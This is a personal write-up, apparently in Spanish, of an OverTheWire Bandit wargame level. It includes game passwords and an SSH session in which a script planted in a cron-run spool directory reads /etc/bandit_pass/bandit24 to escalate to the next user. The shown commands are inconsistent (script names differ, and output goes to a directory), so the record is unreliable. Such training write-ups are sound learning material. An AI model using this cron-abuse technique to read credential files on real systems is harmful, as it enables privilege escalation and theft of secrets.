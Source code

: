 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos  acceso al nivel
```
Username: bandit23
Password: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```
## Solución
```
fabianmartinezalonso@MacBook-Pro-de-Fabian ~ % ssh bandit23@bandit.labs.overthewire.org -p 2220
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

bandit23@bandit.labs.overthewire.org's password: 




bandit23@bandit:~$ whoami
bandit23
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  otw-tmp-dir  sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done




bandit23@bandit:~$ mktemp -d
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ nano scriptfma.sh
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ cat script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.27Y5pyFNys


bandit23@bandit:/tmp/tmp.27Y5pyFNys$ touch password
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ chmod 777 password
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ cp scriptfma.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ cat password
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ cat password
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
## Notas adicionales
## Referencias